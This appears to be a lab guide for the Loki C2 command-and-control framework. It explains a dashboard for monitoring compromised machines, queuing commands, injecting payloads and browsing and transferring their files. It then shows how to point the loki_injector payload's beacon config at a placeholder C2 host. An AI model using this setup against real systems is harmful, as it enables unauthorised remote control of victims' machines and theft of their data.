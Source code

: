 # 🔍 Loki C2 - Lab Monitoring Guide

## ✅ Loki Client GUI is Running!

The Loki C2 Electron client has been started and should be visible on your screen.

═══════════════════════════════════════════════════════════════

## 📊 Using the Dashboard

### 1. Dashboard View
   - Shows all connected agents
   - Real-time agent status
   - System information for each compromised machine

### 2. Agent Details
   - Click on an agent to see details
   - View: Hostname, Username, IP addresses, OS info
   - Task queue and execution history

### 3. Task Queue
   - Monitor command execution
   - See payload injection status
   - Real-time feedback from agents

### 4. Explorer
   - Browse files on compromised systems
   - Download/upload capabilities

═══════════════════════════════════════════════════════════════

## 🧪 Testing Your .exe in Lab Environment

### Step 1: Configure C2 Server in Payload

Before deploying loki_injector.exe, update the C2 server URL:

**Edit:** `payloads/output/windows/loki_injector.py` (line ~30)

```javascript
const cfg = {
    srv: 'http://YOUR_MAC_IP:3000',  // ← Change this!
    int: 60000,
    id: `${os.hostname()}_${os.userInfo().username}`
};
```

**Find your Mac's IP:**
```bash
ifconfig | grep "inet " | grep -v 127.0.0.1
```
